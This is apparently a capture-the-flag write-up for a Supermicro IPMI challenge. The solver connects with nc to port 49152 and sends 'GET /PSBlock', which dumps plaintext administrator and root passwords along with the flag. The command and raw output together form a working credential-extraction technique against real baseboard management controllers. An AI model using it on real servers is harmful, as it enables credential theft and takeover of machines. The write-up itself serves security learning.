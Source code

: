 IPMI Server Got Owned-350
We don’t need security on embedded devices anyway, right?
http://prod_atl_dc3_r49_u23.rogueterminal.com/
Challenge by Gus Naughton

The name says that it's an IPMI server. Clicking that link shows that it is a Supermicro device.

Goolging IPMI supermicro vulnerability returns some results.
http://arstechnica.com/security/2014/06/at-least-32000-servers-broadcast-admin-passwords-in-the-clear-advisory-warns/

Basically we connect to a port that allows us to fetch the password.

omegactf:~/workspace $ nc prod_atl_dc3_r49_u23.rogueterminal.com 
49152
ATEN SMASH-CLP System Management Shell, version 1.02

Copyright (c) 2008-2009 by ATEN International CO., Ltd.

All Rights Reserved



GET /PSBlock

=%}?

0adminADMIN**ADMIN**;TTroot**flag{1PM1_1S_MUY_1N$3CUR3_LOPL}**???%?v?i?o???DDD@??

Answer: 1PM1_1S_MUY_1N$3CUR3_LOPL
